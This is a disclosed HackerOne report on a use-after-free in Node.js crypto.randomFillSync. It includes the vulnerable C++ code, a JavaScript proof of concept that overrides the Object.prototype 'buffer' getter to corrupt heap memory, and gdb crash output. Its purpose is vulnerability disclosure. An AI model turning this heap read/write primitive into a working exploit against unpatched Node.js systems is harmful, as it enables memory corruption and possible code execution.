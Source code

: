 # Use After Free in crypto.randomFill

## Report Details
- **Report ID**: 340053
- **URL**: https://hackerone.com/reports/340053
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-04-18T12:38:05.607Z
- **Disclosed**: 2020-01-15T02:00:32.927Z

## Reporter
- **Username**: tunz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**

We can trigger Use-After-Free while running crypto.randomFill, so we can easily read/write heap memory using a typed array pointing a freed backing store.

**Description:**

See this `node_crypto.cc` code.
```pp
void RandomBytesBuffer(const FunctionCallbackInfo<Value>& args) {
...
  char* data = Buffer::Data(args[0]); // <------------ Get a backing store from a given argument.
  data += offset;

  std::unique_ptr<RandomBytesRequest> req(
      new RandomBytesRequest(env,
                             obj,
                             size,
                             data,     // <--------------------- Store the data to req
                             RandomBytesRequest::DONT_FREE_DATA));
...
  } else {
    Local<Value> argv[2];
    RandomBytesProcessSync(env, std::move(req), &argv); // <---- This calls RandomBytesCheck
...
```

```pp
void RandomBytesCheck(RandomBytesRequest* req, Local<Value> (*argv)[2]) {
...
    char* data = nullptr;
    size_t size;
    req->return_memory(&data, &size);
    (*argv)[0] = Null(req->env()->isolate());
    Local<Value> buffer =
        req->object()->Get(req->env()->context(),
                           req->env()->buffer_string()).ToLocalChecked(); // <----- We can return a non-buffer object here by modifying Object.prototype getter.

    if (buffer->IsArrayBufferView()) {
      ...
    } else {
      (*argv)[1] = Buffer::New(req->env(), data, size) // <------- This creates a Buffer with the backing store of a given argument Buffer.
          .ToLocalChecked();
...
```

As a result, two buffers are sharing a backing store, so this triggers use-after-free if one of the buffers are freed by gc.

## Steps To Reproduce:

Execute the following code.

```js
const crypto = require('crypto');

Object.defineProperty(Object.prototype, "buffer", {
  get: function() {
    return {}; // Return a non-buffer.
  }, set: function(v) {
  }
});

let size = 100000;
let ta = new Uint8Array(size);
crypto.randomFillSync(ta, 0, size);

// Actually we don't need this part, this makes a buffer free and crashes just for PoC
let arr_size = 10000;
let arrs = new Array(arr_size);
for (let i = 0; i <arr_size; i++) {
  let tmp = new Array(0x500);
  arrs[i] = tmp;
}

// Just overwrites heap memory space to 0x41
for (let i = 0; i < size; i++) {
  ta[i] = 0x41;
}
```

```
$ ./out/Release/node --version
v9.11.1
$ gdb -q --args ./out/Release/node randombytes.js
Reading symbols from ./out/Release/node...r
done.
(gdb) r
Starting program: /.../ randombytes.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fcd52464700 (LWP 34515)]
[New Thread 0x7fcd51c63700 (LWP 34516)]
[New Thread 0x7fcd51462700 (LWP 34520)]
[New Thread 0x7fcd50c61700 (LWP 34522)]
[New Thread 0x7fcd5391d700 (LWP 34529)]

Thread 1 "node" received signal SIGSEGV, Segmentation fault.
_int_malloc (av=av@entry=0x7fcd52829b20 <main_arena>, bytes=bytes@entry=8192) at malloc.c:3567
3567    malloc.c: No such file or directory.
(gdb) x/i $pc
=> 0x7fcd524e6f04 <_int_malloc+900>:    mov    rdx,QWORD PTR [rax+0x8]
(gdb) i r rax
rax            0x4141414141414141       4702111234474983745
(gdb)
```

I've tested this in node v9.11.1 built with clang in Ubuntu 16.04.3, and also reproducible in the master branch at the time of writing this report.

## Impact

This vulnerability could lead to Remote Code Execution.

## Attachments
No attachments
